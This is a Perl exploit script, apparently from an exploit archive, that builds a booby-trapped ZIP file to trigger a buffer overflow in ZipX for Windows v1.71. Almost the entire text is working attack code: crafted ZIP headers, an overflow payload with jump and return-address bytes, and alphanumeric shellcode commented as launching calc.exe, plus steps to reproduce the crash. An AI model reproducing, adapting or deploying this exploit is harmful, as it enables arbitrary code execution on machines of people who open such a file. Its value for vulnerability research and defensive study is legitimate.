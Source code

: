 EXP
---

    #!/usr/bin/perl
    #
    #[+]Exploit Title: ZipX for Windows v1.71 ZIP File Buffer Overflow Exploit
    #[+]Date: 05\09\2011
    #[+]Author: C4SS!0 G0M3S
    #[+]Software Link: http://download.cnet.com/ZipX/3000-2250_4-10518937.html
    #[+]Version: v1.71
    #[+]Tested On: WIN-XP SP3 Brazilian Portuguese
    #[+]CVE: N/A
    #
    #
    #Reproduce:
    #Open the zip file, after click in "Encrypt", type you password and click in "Ok" BOOM!!!
    #See the calc.exe
    #


    use strict;
    use warnings;

    my $filename = "Exploit.zip";

    print "\n\n\t\tZipX for Windows v1.71 ZIP File Buffer Overflow Exploit\n";
    print "\t\tCreated by C4SS!0 G0M3S\n";
    print "\t\tE-mail louredo_\@hotmail.com\n";
    print "\t\tSite http://net-fuzzer.blogspot.com/\n\n";
    sleep(1);

    print "\t\t[+]Creating ZIP File...\n";
    sleep(1);
    my $head = "\x50\x4B\x03\x04\x14\x00\x00".
    "\x00\x00\x00\xB7\xAC\xCE\x34\x00\x00\x00" .
    "\x00\x00\x00\x00\x00\x00\x00\x00" .
    "\xe4\x0f" .
    "\x00\x00\x00";

    my $head2 = "\x50\x4B\x01\x02\x14\x00\x14".
    "\x00\x00\x00\x00\x00\xB7\xAC\xCE\x34\x00\x00\x00" .
    "\x00\x00\x00\x00\x00\x00\x00\x00\x00".
    "\xe4\x0f".
    "\x00\x00\x00\x00\x00\x00\x01\x00".
    "\x24\x00\x00\x00\x00\x00\x00\x00";

    my $head3 = "\x50\x4B\x05\x06\x00\x00\x00".
    "\x00\x01\x00\x01\x00".
    "\x12\x10\x00\x00".
    "\x02\x10\x00\x00".
    "\x00\x00";

    my $shellcode =
    "PYIIIIIIIIIIQZVTX30VX4AP0A3HH0A00ABAABTAAQ2AB2BB0BBXP8ACJJIHZXL9ID414ZTOKHI9LMUK" .
    "VPZ6QO9X1P26QPZTW5S1JR7LCTKN8BGR3RWS9JNYLK79ZZ165U2KKLC5RZGNNUC70NEPB9OUTQMXPNMM" .
    "PV261UKL71ME2NMP7FQY0NOHKPKZUDOZULDS8PQ02ZXM3TCZK47PQODJ8O52JNU0N72N28MZKLTNGU7Z" . # Shellcode WinExec "calc.exe"
    "UXDDXZSOMKL4SQKUNKMJPOOCRODCMDKR0PGQD0EYIRVMHUZJDOGTUV2WP3OIVQ1QJSLSKGBLYKOY7NWW" . # Alpha Numeric Shellcode BaseAddress EAX
    "LNG6LBOM5V6M0KF2NQDPMSL7XT80P61PBMTXYQDK5DMLYT231V649DZTPP26LWSQRLZLQK15XUXYUNP1" .
    "BPF4X6PZIVOTZPJJRUOCC3KD9L034LDOXX5KKXNJQMOLSJ6BCORL9WXQNKPUWNKRKJ8JSNS4YMMOHT3Z" .
    "QJOHQ4QJUQLN1VSLV5S1QYO0YA";
    my $payload = "A" x 330;
    $payload .=
    ("\x66\x05\x4D\xCD" x 4).
    "\x66\x05\x19\x18". # ADD AX,1819
    "\x54\x5A\x50\x5B". # PUSH ESP # POP EDX # PUSH EAX # POP EBX
    "\x2B\xE0". # Afer convertion SUB EDX,EBX
    "\x52\x58". # PUSH EDX # POP EAX
    "\x98\xd1"; # CALL EAX
    $payload .= "C" x (371-length($payload));
    $payload .= "\x3C\x01\x75\xd1"; # Converted is that "\x3c\x04\x75\xd0"
    $payload .= pack('V',0x0041334d); # P/P/RET
    $payload .= $shellcode;
    $payload .= "B" x (4064-length($payload));
    $payload = $payload.".rar";
    my $zip = $head.$payload.$head2.$payload.$head3;
    open(FILE,">$filename") || die "\t\t[-]Error:\n$!\n";
    print FILE $zip;
    close(FILE);
    print "\t\t[+] ZIP File Created With Sucess:)\n";
    sleep(3);